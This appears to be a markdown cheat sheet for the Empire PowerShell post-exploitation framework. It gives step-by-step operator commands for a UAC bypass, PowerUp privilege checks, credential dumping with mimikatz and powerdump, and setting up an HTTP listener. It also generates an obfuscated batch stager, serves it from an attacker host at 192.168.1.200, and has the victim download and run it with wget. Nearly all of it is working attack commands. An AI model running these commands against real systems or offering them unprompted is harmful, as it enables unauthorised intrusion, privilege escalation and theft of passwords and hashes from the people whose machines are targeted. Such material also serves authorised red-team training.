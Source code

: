# BypassUac

## BypassUac module
[Source](https://alpinesecurity.com/blog/empire-a-powershell-post-exploitation-tool)

`info` 

If you type info, it will show you information about the victim machine. 
The most important information would be the _high_integrity_ flag. You can see that it is set to 0, which means we do not have SYSTEM privileges.
To increase the _high_integrity_ flag, we would need to elevate privileges.

To do this, type usemodule powershell/privesc/bypassuac_env. Set Listener to http, since we are using a http listener, and Agent to the agent from the victim machine.

`(Empire: agents) > usemodule powershell/privesc/bypassuac_env`

`(Empire: powershell/privesc/bypassuac_env) > set Listener http`

`(Empire: powershell/privesc/bypassuac_env) > set Agent Win10SEC`

`(Empire: powershell/privesc/bypassuac_env) > back`

`(Empire) > agents`

`(Empire: agents) > interact K1NVE34D`

`(Empire: K1NVE34D) > info`

## BypassUac with pop up UAC prompt

`(Empire: Agent007) > usemodule privesc/ask`

`set Listener http`

`run`

## Powerup Privileges Escalation

`(Empire: Agent007) > usemodule privesc/powerup/allchecks`

# Dump creds

## Mimikatz

In addition to modules, the empire has tools. For example, mimikatz.

`(Empire: Agent007) > mimikatz`

To run them, you need to go to command prompt of the required agent

## PowerUp

`(Empire: RMVFSLPW) > usemodule credentials/powerdump*`

`(Empire: powershell/credentials/powerdump) > run`

## Usefull commands

`sc` - takes a screenshot, default is PNG. Giving a ratio means using JPEG

`rename NewAgent` - rename agent

`searchmodule powerup` - search modules

`shell ipconfig` - execute command

## Type of modules

`code_execution` - these modules let you run code, including Metasploit payloads, on the target box

`collection` - these modules let you pillage information from the target machine

`credentials` - these modules let you plunder usernames, hashes, and passwords from the target

`exploitation` - these modules let you exploit additional targets

`lateral_movement` - these modules let you pivot to other target machines

`management` - these modules are associated with system administration functions on the target

`persistence` - these modules will make your agent survive across user logoff or reboot.

`privesc` these modules provide privilege escalation exploits.

`recon` these are the reconnaissance modules.

`situational_awareness` these modules pull information from the target environment, including scanners and related tools.

`trollsploit` these modules let you troll the user sitting at the victim machine’s console, including playing audio and popping up dialog boxes.


## Configure a listeners

`listeners`

`(Empire: listeners) > uselistener <Tab><Tab>`

`(Empire: listeners) > uselistener http`

`(Empire: listeners/http) > info`

Note that we have options here:

`KillDate` - after which time the listener will stop listening

`StagingKey` - a pseudo-random StagingKey for encrypting communications between agent and listener

`WorkingHours` - to limit the time when agents will actively call back to the listener

`DefaultDelay` - (default 5) agents are asynchronous and the DefaultDelay specifies how often the agent will check in

`(Empire: listeners/http) > set DefaultDelay 1`

`(Empire: listeners/http) > set Port 8080`

`(Empire: listeners/http) > set Host http://192.168.1.200:8080`

`(Empire: listeners/http) > execute`

`(Empire: listeners/http) > listeners`

## Deploy an agent

`(Empire) > usestager <Tab><Tab>`

`(Empire) > usestager windows/launcher_bat`

`(Empire: stager/windows/launcher_bat) > info`

`(Empire: stager/windows/launcher_bat) > set Listener http`

`(Empire: stager/windows/launcher_bat) > set Obfuscate True`

`(Empire: stager/windows/launcher_bat) > generate`

The agent can be accessed by the web server

`cd /tmp`

`python -m http.server`

On the target machine, execute the following command to download the agent

`wget http://192.168.1.200:8000/launcher.bat -OutFile launcher.bat`

`./launcher.bat`

## Active agent

`(Empire) > agents` - agents menu

`(Empire: agents) > ?`

`(Empire: agents) > interact C9SEXLWT`

## Modules

`(Empire: Agent007) > usemodule <Tab><Tab>` - list of available modules

`(Empire: Agent007) > usemodule situational_awareness/host/winenum`

`(Empire: powershell/situational_awareness/host/winenum) > execute`